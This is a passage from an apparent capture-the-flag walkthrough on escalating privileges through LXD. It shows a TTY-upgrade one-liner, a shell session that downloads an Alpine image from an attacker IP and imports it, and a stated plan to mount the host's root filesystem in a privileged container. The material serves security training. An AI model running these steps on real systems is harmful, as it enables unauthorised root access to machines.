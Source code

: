 `SHELL=/bin/bash script -q /dev/null`

11. In this question you should be do a basic research on how linux containers (LXD) work, it has a small online tutorial. Googling "lxd try it online".

[https://linuxcontainers.org/lxd/introduction/](https://linuxcontainers.org/lxd/introduction/)

13. Research how to escalate privileges using LXD permissions and check to see if there are any images available on the box.

```
www-data@ubuntu:/$ cd ~
cd ~
www-data@ubuntu:/var/www$ wget http://10.8.106.222/alpine-v3.12-x86_64-20201008_2055.tar.gz
<.8.106.222/alpine-v3.12-x86_64-20201008_2055.tar.gz
--2020-10-08 11:58:36--  http://10.8.106.222/alpine-v3.12-x86_64-20201008_2055.tar.gz
Connecting to 10.8.106.222:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3183740 (3.0M) [application/gzip]
Saving to: 'alpine-v3.12-x86_64-20201008_2055.tar.gz'
2020-10-08 11:58:38 (1.56 MB/s) - 'alpine-v3.12-x86_64-20201008_2055.tar.gz' saved [3183740/3183740]
www-data@ubuntu:/var/www$ lxc image import alpine-v3.12-x86_64-20201008_2055.tar.gz  --alias myalpine
<v3.12-x86_64-20201008_2055.tar.gz  --alias myalpine
www-data@ubuntu:/var/www$ lxc image list
lxc image list
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myalpine | f2a9284c04f4 | no     | alpine v3.12 (20201008_20:55) | x86_64 | 3.04MB | Oct 8, 2020 at 6:59pm (UTC) |
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
www-data@ubuntu:/var/www$
```

14. The idea here is to mount the root of the OS file system on the container, this should give us access to the root directory. Create the container with the privilege true and mount the root file system on /mnt in order to gain access to /root directory on host machine.

```
www-data@ubuntu:/var/www$ lxc image import alpine-v3.12-x86_64-20200623_1255.tar.gz --alias myalpine
<-v3.12-x86_64-20200623_1255.tar.gz --alias myalpine
Error: open alpine-v3.12-x86_64-20200623_1255.tar.gz: no such file or directory
www-data@ubuntu:/var/www$ ls
ls
alpine-v3.12-x86_64-20201008_2055.tar.gz  html
www-data@ubuntu:/var/www$ lxc image import alpine-v3.12-x86_64-20201008_2055.tar.gz  --alias myalpine
<v3.12-x86_64-20201008_2055.tar.gz  --alias myalpine
www-data@ubuntu:/var/www$ lxc image list
lxc image list
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
|  ALIAS   | FINGERPRINT  | PUBLIC |          DESCRIPTION          |  ARCH  |  SIZE  |         UPLOAD DATE         |
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
| myalpine | f2a9284c04f4 | no     | alpine v3.12 (20201008_20:55) | x86_64 | 3.04MB | Oct 8, 2020 at 6:59pm (UTC) |
+----------+--------------+--------+-------------------------------+--------+--------+-----------------------------+
```